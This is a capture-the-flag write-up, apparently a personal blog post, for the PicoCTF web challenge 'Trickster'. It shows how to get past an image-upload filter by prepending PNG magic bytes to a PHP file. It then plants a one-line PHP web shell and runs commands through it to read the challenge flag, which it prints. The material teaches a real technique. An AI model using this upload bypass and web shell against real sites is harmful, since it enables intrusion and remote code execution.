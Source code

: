 ```yaml
---
layout: post
title: "Trickster"
date: 2025-07-30
categories: [PicoCTF]
tags: [picoctf,webexploitation,Medium]
---
```

# 🃏 Trickster – PicoCTF

## 📘 Challenge Description

**I found a web app that can help process images: PNG images only!**

---
## 🛠️ Step-by-Step Solution
### 1. 🔍 Explore the Website

- Open the website and try uploading some files.
- Rename a `.php` file to something like `test.png.php` and try uploading it.
- It still fails — the site checks more than just the file extension.

---
### 2. 🧼 Check the Source Code

- Use `Ctrl + U` or right-click → "Inspect" → "Network/Elements".
- Nothing useful found directly.

---
### 3. 🤖 Look for Hidden Directories

Visit:`/robots.txt`
You’ll find:
`/information.txt`
`/uploads/`

---
### 4. 📄 Visit `/information.txt`
The file says:
Let's create a web app for PNG Images processing.

Requirements:
1. Allow users to upload PNG images
2. Check file extension (must be `.png`)
3. Validate magic bytes (hex: 50 4E 47)
4. Store the validated files securely

✅ This confirms the site is checking [**magic bytes**](https://docs.stairwell.com/docs/what-are-magic-bytes), not just the filename.

---
### 5. 🧪 Create a PHP File with PNG Header
Try uploading this PHP file named `vuln.png.php`:

```php
<?php echo phpversion(); ?>
```
But it fails: not a valid PNG image.
Now we’ll manually add the PNG magic bytes.

---
### 6. 🎩 Add PNG Magic Bytes Manually
To fool the server, prepend valid PNG bytes to the file.

```bash
echo -ne "\x89PNG\r\n\x1a\n" > vuln.png.php
echo "<?php echo phpversion(); ?>" >> vuln.png.php
```
Check it:
```bash
xxd vuln.png.php | head
```
Now the file starts with correct PNG magic bytes: **89 50 4E 47**

---
### 7. 📤 Upload the Modified File
Upload `vuln.png.php`.

Then visit:
`/uploads/vuln.png.php`

🎉 If you see the PHP version (like **8.3.x**), your code is executing!

---
### 8. 💻 Execute System Commands
Modify the file content to:
```php
<?php echo shell_exec($_GET[0]); ?>
```
Repeat the steps to add PNG header and upload the file again.

Visit:
```bash
/uploads/vuln.png.php?0=ls /var/www/html
```
You’ll see:
```bash
MQZWCYZWGI2WE.txt
index.php
instructions.txt
robots.txt
uploads
```
---
### 9.🏁 Read the Flag
To read the flag file:
`/uploads/vuln.png.php?0=cat /var/www/html/MQZWCYZWGI2WE.txt`

🎉 Flag displayed on screen!

**picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_d3ac625b}**

---
## 🧠 Learning Outcomes from "Trickster"

1. Learned that websites check both file extension and content (magic bytes).
2. Discovered how to add PNG magic bytes to bypass upload filters.
3. Understood how to turn a PNG file into a PHP web shell.
4. Used `robots.txt` to find hidden directories and info.
5. Executed system commands using a PHP payload and `shell_exec()`.
6. Found how upload folders can be exploited if not secured properly.
7. Gained hands-on experience with file upload and remote code execution (RCE).

---










